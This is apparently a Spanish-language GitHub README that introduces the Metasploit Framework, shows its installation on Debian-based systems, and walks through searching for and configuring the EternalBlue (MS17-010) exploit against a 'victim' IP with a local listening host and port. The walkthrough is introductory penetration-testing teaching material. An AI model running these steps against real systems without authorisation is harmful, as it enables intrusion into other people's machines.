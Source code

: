 ![45d05b2d7bd477a3cac9786ef8cf6e29](https://user-images.githubusercontent.com/103068924/168299911-cf99878d-756d-4497-91d1-49c0571d278b.png)

# ¿Qué es Metasploit?

Metasploit es un proyecto de código abierto para la seguridad informática, que proporciona información acerca de vulnerabilidades de seguridad y ayuda en 
tests de penetración `Pentesting` y el desarrollo de firmas para sistemas de detección de intrusos.

Su subproyecto más conocido es el `Metasploit Framework`, una herramienta para desarrollar y ejecutar exploits contra una máquina remota.

Otros subproyectos importantes son las bases de datos de opcodes (códigos de operación), un archivo de shellcodes, e investigación sobre seguridad. 
Inicialmente fue creado utilizando el lenguaje de programación de scripting Perl aunque actualmente el Metasploit Framework ha sido escrito de nuevo 
completamente en el lenguaje Ruby.

# ¿Como funciona Metasploit?

Los pasos básicos para la explotación de un sistema que utiliza el Sistema incluyen:

1. La selección y configuración de un código el cual se va a explotar. El cual entra al sistema objetivo, mediante el aprovechamiento de
bugs. Existen cerca de 900 exploits incluidos para Windows, Unix / Linux y Mac OS X.   

2. Opción para comprobar si el sistema destino es susceptible a los bugs elegidos.  

3. La técnica para codificar el sistema de prevención de intrusiones (IPS) e ignore la carga útil codificada.   

4. Visualización a la hora de ejecutar el exploit.

Metasploit se ejecuta en Unix (incluyendo Linux y Mac OS X) y en Windows. El Sistema Metasploit se puede extender y es capaz utilizar complementos 
en varios idiomas.

Para elegir un exploit y la carga útil, se necesita un poco de información sobre el sistema objetivo, como la versión del sistema operativo y los
servicios de red instalados. 

Esta información puede ser obtenida con el escaneo de puertos y "OS fingerprinting", puedes obtener esta información 
con herramientas como Nmap, NeXpose o Nessus, estos programas, pueden detectar vulnerabilidades del sistema de destino. Metasploit puede importar
los datos de la exploración de vulnerabilidades y comparar las vulnerabilidades identificadas.

# Instalación:

Para poder instalar Metasploit en sistemas basados en Debian como Parrot o Kali Linux, primero actualizamos el sistema:

    sudo apt-get update
    
Y luego procedemos con la instalación:

    sudo apt-get install metasploit-framework
     
Una vez instalado podemos ejecutarlo mediante el comando:

    msfconsole
    
![Captura de pantalla -2022-05-13 02-39-06](https://user-images.githubusercontent.com/103068924/168301223-b00a6c4b-9582-42c4-8adf-85b44e3ebfcc.png)
 
# Búsqueda de Exploits:
 
Metasploit cuenta con una gran recopilación de exploits, para poder buscar el adecuado filtrando por la vulnerabilidad que queremos explotar 
simplemente utilizamos el comando `search` seguido del exploit, la vulnerabilidad o la versión del sistema que vamos a vulnerar. Esto debemos
ejecutarlo una vez hemos ingresado en `msfconsole`:

    search [Información que identifique la vulnerabilidad.]
    
![Captura de pantalla -2022-05-13 13-05-57](https://user-images.githubusercontent.com/103068924/168302351-3f912051-c282-44f8-a783-8ea373f84284.png)

## Conceptos básicos de configuración:

Una vez nos muestra las listas (en este ejemplo hemos buscado la vulnerabilidad ms17-010 conocida como EthernalBlue) de los exploits que contienen
la iformación proporcionada. En mi caso como he especificado la vulnerabilidad `ms17-'010` los resultados son muy concretos.

Una vez tenemos claro el exploit que deaseamos utilizar podemos seleccionarlo mediante `use` seguido o del número de posición en la lista, el directorio o el nombre del mismo exploit.

    use 0
    
![Captura de pantalla -2022-05-13 13-06-25](https://user-images.githubusercontent.com/103068924/168303141-286e5f50-4e31-44b6-93a1-497f1e553a3f.png)

Tras seleccionar el exploit ya solo faltaría configurarlo. Para ver la configuración predeterminada podemos utilizar el comando `options`.

![Captura de pantalla -2022-05-13 13-26-24](https://user-images.githubusercontent.com/103068924/168303659-f3e2dbc6-913a-48ae-9f0a-e01faf0cd725.png)

Para configurar los parametros simplemente utilizamos `set` seguido del parametro a cambiar. Debemos especificar el  `RHOSTS` donde indicamos la Ip
de la víctima, el `LHOST` donde indicaremos nuestra Ip pública (En caso de utilizar una VPN debemos poner la Ip de misma.) y finalmente, indicamos 
el `LPORT` que es el puerto por el cual nos pondremos en escucha.

    set RHOSTS [Ip Víctima]

    set LHOST [Ip Local]
    
    set LPORT [Puerto de Escucha]
    
![Captura de pantalla -2022-05-13 13-25-31](https://user-images.githubusercontent.com/103068924/168304755-70ce4ee5-3ce0-440f-a1ab-8f68ad035dff.png)

Finalmente, una vez lo tenemos todo configurado ejemcutamos el exploit deseado mediante el comando `exploit`:

    exploit


